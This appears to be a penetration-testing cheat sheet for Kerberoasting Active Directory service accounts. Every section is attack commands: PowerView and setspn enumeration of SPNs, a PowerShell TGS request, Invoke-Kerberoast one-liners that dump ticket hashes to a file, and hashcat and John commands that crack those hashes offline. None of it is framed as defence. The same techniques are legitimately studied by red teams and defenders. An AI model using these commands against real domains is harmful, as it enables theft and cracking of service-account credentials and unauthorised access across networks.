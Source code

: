 # Kerberoast

## Find SPN

### Powerview

```csharp
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```csharp
setspn -T domain -Q */*
```

## Request a TGS

### Powershell

```csharp
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```csharp
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```

## Crack

### Hashcat

```csharp
hashcat -m 13100 hash.txt dic.lst --force
```

### John

```csharp
john --format=krb5tgs --wordlist=dic.lst hash.txt
```

